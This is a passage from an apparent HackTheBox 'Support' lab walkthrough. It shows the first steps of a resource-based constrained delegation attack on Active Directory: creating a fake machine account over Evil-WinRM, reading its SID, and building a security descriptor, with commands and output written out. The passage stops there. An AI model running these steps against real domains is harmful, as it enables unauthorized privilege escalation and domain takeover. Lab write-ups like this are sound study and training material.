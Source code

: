 ```bash
Get-NetComputer DC | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_3_msds-dc.png" width="70%"/>
</p>

We got nothing, so last requierement checked. Now, let's perform the attack.

First, create a new Computer Object. By the way, I'm following [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#kerberos-delegation-vs-resource-based-kerberos-delegation) methodology, so I will stick to its terminology.

```bash
Evil-WinRM* PS C:\Users\support\Desktop> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = FAKE01$
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb
[+] Machine account FAKE01 added
Evil-WinRM* PS C:\Users\support\Desktop> 
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_4_machine.png" width="70%"/>
</p>

Check if the computer was created and take the SID:

```bash
Evil-WinRM* PS C:\Users\support\Desktop> Get-DomainComputer FAKE01

pwdlastset             : 8/5/2022 12:45:04 AM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=FAKE01,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : FAKE01
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5601
samaccountname         : FAKE01$
...
```

**SID : S-1-5-21-1677581083-3380853377-188903654-5601**

Now, create a new raw security descriptor for the FAKE01 computer principal, use the obtained SID to correctly target the computer:

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5601)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
